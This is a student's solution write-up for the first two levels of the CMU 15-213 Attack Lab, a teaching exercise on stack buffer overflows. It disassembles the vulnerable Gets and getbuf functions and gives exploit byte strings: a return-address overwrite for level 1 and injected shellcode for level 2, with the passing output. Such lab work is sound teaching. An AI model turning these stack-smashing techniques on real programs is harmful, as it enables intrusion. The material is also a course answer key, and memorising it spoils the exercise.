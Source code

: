# Solution

## Part I: Code Injection Attacks

### Level 1

Here is the assembly code for *Gets*:

```Assembly
0000000000401a40 <Gets>:
  401a40:	41 54                	push   %r12
  401a42:	55                   	push   %rbp
  401a43:	53                   	push   %rbx
  401a44:	49 89 fc             	mov    %rdi,%r12
  401a47:	c7 05 b3 36 20 00 00 	movl   $0x0,0x2036b3(%rip)        # 605104 <gets_cnt>
  401a4e:	00 00 00 
  401a51:	48 89 fb             	mov    %rdi,%rbx
  401a54:	eb 11                	jmp    401a67 <Gets+0x27>
  401a56:	48 8d 6b 01          	lea    0x1(%rbx),%rbp
  401a5a:	88 03                	mov    %al,(%rbx)
  401a5c:	0f b6 f8             	movzbl %al,%edi
  401a5f:	e8 3c ff ff ff       	call   4019a0 <save_char>
  401a64:	48 89 eb             	mov    %rbp,%rbx
  401a67:	48 8b 3d 62 2a 20 00 	mov    0x202a62(%rip),%rdi        # 6044d0 <infile>
  401a6e:	e8 4d f3 ff ff       	call   400dc0 <_IO_getc@plt>
  401a73:	83 f8 ff             	cmp    $0xffffffff,%eax
  401a76:	74 05                	je     401a7d <Gets+0x3d>
  401a78:	83 f8 0a             	cmp    $0xa,%eax
  401a7b:	75 d9                	jne    401a56 <Gets+0x16>
  401a7d:	c6 03 00             	movb   $0x0,(%rbx)
  401a80:	b8 00 00 00 00       	mov    $0x0,%eax
  401a85:	e8 6e ff ff ff       	call   4019f8 <save_term>
  401a8a:	4c 89 e0             	mov    %r12,%rax
  401a8d:	5b                   	pop    %rbx
  401a8e:	5d                   	pop    %rbp
  401a8f:	41 5c                	pop    %r12
  401a91:	c3                   	ret
```

Here is a rough translation to C:

```C
int Gets(char* buf) {
    gets_cnt = 0; // global variable
    for (char c = getchar(); c != -1 && c != '\n'; c = getchar()) {
        *buf = c;
        save_char(c);
        buf += 1;
    }
    *buf = 0;
    save_term();
    return 0;
}
```

This function is called within *getbuf*:

```Assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	ret
  4017be:	90                   	nop
  4017bf:	90                   	nop
  ```

Before the call to *Gets*, it basically prepares a buffer of size 0x28 (40 bytes) on the stack and pass the stack pointer as input to *Gets*.

Here is the stack organization at the point after *call*:

| address     | data        |
|------------ | ----------- |
| %rsp + 0x30 | 0x401976    |
| %rsp + 0x28 |             |
| %rsp + 0x20 |             |
| %rsp + 0x18 |             |
| %rsp + 0x10 |             |
| %rsp + 0x08 |             |
| %rsp        | 0x4017b4    |

Where *%rdi* point to *%rsp + 0x8*, *%rsp* contains the address to the instruction after the call to *Gets* in *getbuf*, and *rsp + 0x30* contains the address to the instructino after the call to *getbuf* in *test*.

Our goal is to replace *%rsp + 0x30* with the address of the *touch1* function (0x4017c0).

To do that, we can simply write 40 arbitrary characters, and then 4 bytes corresponding to the *touch1* address. See [exploit_ctarget_1.txt](exploit_ctarget_1.txt) for the solution to this problem.

Here is the output after running ctarget with the exploit string:

```bash
❯ ./ctarget -q < solution/exploit_ctarget_1_raw.txt
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 
```

## Level 2

The idea is to write a function inside the buffer, say at *%rsp + 0x08* and pass control to that function from *getbuf*. Inside that function, we write our cookie to *%rdi*, and then pass control again to the *touch2* function.

To implement two function returns that first returns to *%rsp + 0x08* and then to *touch2*, at first I thought we should put *%rsp + 0x08* to *%rsp + 0x30* (the return address of *getbuf*), and put *touch2* address above it (*%rsp + 0x38*). However, I got a segmentation fault. This is most probably due to messing with *test* function's stack.

A better way would be to push the address of *touch2* before calling *ret* from our injected code.

Note that *%rsp + 0x08* is the stack pointer after allocating `buf` in `getbuf`. We can get this value with GDB.

Here is the assembly code we need to inject to our string:

```Assembly
bf fa 97 b9 59                                              /* %rsp + 0x08: mov 0x59b997fa %edi */
68 ec 17 40 00                                              /* %rsp + 0x0d: push ox4017ec */ 
c3                                                          /* %rsp + 0x12: ret */
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 /* %rsp + 0x13: arbitrary bytes */
00 00 00 00 00 00 00 00 00                                  /* %rsp + 0x27: arbitrary bytes */
78 dc 61 55 00 00 00 00                                     /* %rsp + 0x30: %rsp + 0x08 */
```

Here is the output after running ctarget with the exploit string:
```
❯ ./ctarget -q < solution/exploit_ctarget_2_raw.txt
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:BF FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00
 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 
 ```
